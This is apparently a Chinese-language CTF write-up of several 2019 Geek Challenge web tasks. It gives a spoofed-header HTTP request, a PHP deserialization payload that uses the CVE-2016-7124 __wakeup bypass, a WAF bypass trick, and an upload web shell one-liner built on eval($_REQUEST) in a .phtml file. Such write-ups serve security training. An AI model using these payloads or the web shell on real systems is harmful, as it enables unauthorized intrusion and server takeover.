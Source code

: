 1. waf不允许num变量传递字母，可以在num前面加个空格，waf就找不到num这个变量了，但根据PHP解析的特性，会把空格给去掉，这样我们代码还能正常允许，而且还能够上传非法字符。

2. scandir('/') 由于单引号被黑名单拦截，无法执行，用chr()转ascii进行拼接

## 极客大挑战-2019-Http


burpsuite请求包:
```
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1
Referer: https://www.Sycsecret.com
Accept: */*
Accept-Language: en
Connection: close
```

## 极客大挑战-2019-PHP

www.zip源码泄露

考点：反序列化

```php
<?php
class Name{
    private $username = 'admin';
    private $password = '100';
}

$a = new Name();
echo urlencode(serialize($a)); # urlencode防止private生成的%00不可打印字符复制丢失

# 绕过wakeup需要将name后面的2改为3
?>
```
当成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)

payload:
```
index.php?select=O%3A4%3A"Name"%3A3%3A%7Bs%3A14%3A"%00Name%00username"%3Bs%3A5%3A"admin"%3Bs%3A14%3A"%00Name%00password"%3Bs%3A3%3A"100"%3B%7D
```

## 极客大挑战-2019-Upload

- 上传后缀为.phtml
- ``GIF89a? <script language="php">eval($_REQUEST[shell])</script>``
- 修改Content-Type文件类型为image/jpeg
- upload/shell2.phtml

蚁剑连接

